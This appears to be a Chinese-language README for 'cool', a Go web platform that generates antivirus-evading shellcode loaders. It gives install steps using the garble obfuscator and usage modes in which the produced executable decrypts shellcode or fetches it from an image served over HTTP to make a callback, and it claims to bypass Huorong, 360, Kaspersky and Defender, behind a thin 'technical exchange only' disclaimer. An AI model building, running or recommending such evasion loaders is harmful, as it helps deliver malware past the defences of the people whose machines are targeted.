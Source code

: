 # cool
Golang Gin 框架写的免杀平台
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
加密1:
	直接执行exe
加密2:
	直接执行exe
分离1：
	用python起一个HTTP服务(python -m http.server 8080)，
	把图片放到起http服务的目录下，
	执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)
分离2:
       上线方式1：
	用python起一个HTTP服务(python -m http.server 8080)，
	把图片放到起http服务的目录下，
	执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)
       上线方式2：
	执行xxx.exe 参数为shellcode.txt里的内容 

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说 - (2021.11.11)。

### 声明：仅用于技术交流，请勿用于非法用途。
